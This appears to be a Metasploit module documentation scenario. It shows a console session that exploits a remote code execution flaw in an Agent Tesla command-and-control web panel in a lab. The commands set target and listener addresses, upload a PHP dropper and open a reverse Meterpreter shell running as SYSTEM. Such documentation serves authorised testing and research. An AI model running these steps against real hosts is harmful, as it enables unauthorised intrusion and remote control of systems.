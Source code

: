 ### WebPanel1.7z on Windows 10 x64 19H2 with WAMP 3.2.2.2 x64, PHP 5.6.40, Apache 2.4.41, MariaDB 10.4.10
```
msf5 > use exploit/multi/http/agent_tesla_panel_rce
msf5 exploit(multi/http/agent_tesla_panel_rce) > set LHOST 169.254.115.5
LHOST => 169.254.115.5
msf5 exploit(multi/http/agent_tesla_panel_rce) > set RHOSTS 169.254.162.16
RHOSTS => 169.254.162.16
msf5 exploit(multi/http/agent_tesla_panel_rce) > show options

Module options (exploit/multi/http/agent_tesla_panel_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD                    no        The Agent Tesla CnC password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     169.254.162.16   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /WebPanel/       yes       The URI where the Agent Tesla CnC panel is located on the target
   USERNAME                    no        The Agent Tesla CnC username to authenticate with
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  169.254.115.5    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic (PHP-Dropper)


msf5 exploit(multi/http/agent_tesla_panel_rce) > set LPORT 6633
LPORT => 6633
msf5 exploit(multi/http/agent_tesla_panel_rce) > check
[+] 169.254.162.16:80 - The target is vulnerable.
msf5 exploit(multi/http/agent_tesla_panel_rce) > exploit

[*] Started reverse TCP handler on 169.254.115.5:6633
[*] Targeted operating system is: windows
[*] Sending php/meterpreter/reverse_tcp command payload
[*] Payload uploaded as: .rzzg.php to C:\wamp64\www\\WebPanel\\server_side\scripts\.rzzg.php
[*] Sending stage (38288 bytes) to 169.254.162.16
[*] Meterpreter session 1 opened (169.254.115.5:6633 -> 169.254.162.16:51956) at 2020-06-16 16:01:57 -0500
[+] Deleted C:\wamp64\www\\WebPanel\\server_side\scripts\.rzzg.php

meterpreter > getuid
Server username: SYSTEM (0)
meterpreter > sysinfo
Computer    : DESKTOP-EMAVUN1
OS          : Windows NT DESKTOP-EMAVUN1 10.0 build 18363 (Windows 10) AMD64
Meterpreter : php/windows
```